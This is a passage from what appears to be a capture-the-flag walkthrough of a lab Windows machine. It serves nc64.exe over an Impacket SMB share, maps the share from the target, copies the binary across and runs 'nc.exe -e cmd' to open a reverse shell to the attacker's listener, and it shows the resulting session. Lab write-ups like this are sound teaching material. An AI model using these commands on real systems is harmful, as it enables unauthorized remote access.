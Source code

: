     e9ff7f33************************



### nc64.exe

This shell gets a bit frustrating after a while, so I upgraded to
`nc64.exe`. I started by running `smbserver.py` in the directory where I
keep `nc64.exe`:



    root@kali:/opt/shells/netcat# smbserver.py share . -smb2support -username df -password df
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



For modern Windows, I'll have to set a username and password.

Now I'll map that share from Buff:



    C:\xampp\htdocs\gym\upload> net use \\10.10.14.20\s /u:df df
    �PNG

    The command completed successfully.



Now copy `nc64.exe` to `programdata`, and connect back with a shell:



    C:\xampp\htdocs\gym\upload> copy \\10.10.14.20\share\nc64.exe \programdata\nc.exe
    �PNG

            1 file(s) copied.
            
    C:\xampp\htdocs\gym\upload> \programdata\nc.exe -e cmd 10.10.14.20 443



At my window with a `nc` listener, I get a shell:



    root@kali# rlwrap nc -lvnp 443                             
    Ncat: Version 7.80 ( https://nmap.org/ncat ) 
    Ncat: Listening on :::443                                                                 
    Ncat: Listening on 0.0.0.0:443                                                            
    Ncat: Connection from 10.10.10.198.                                                       
    Ncat: Connection from 10.10.10.198:50577.    
    Microsoft Windows [Version 10.0.17134.1550]  
    (c) 2018 Microsoft Corporation. All rights reserved.                                      
                                                                                              
    C:\xampp\htdocs\gym\upload>

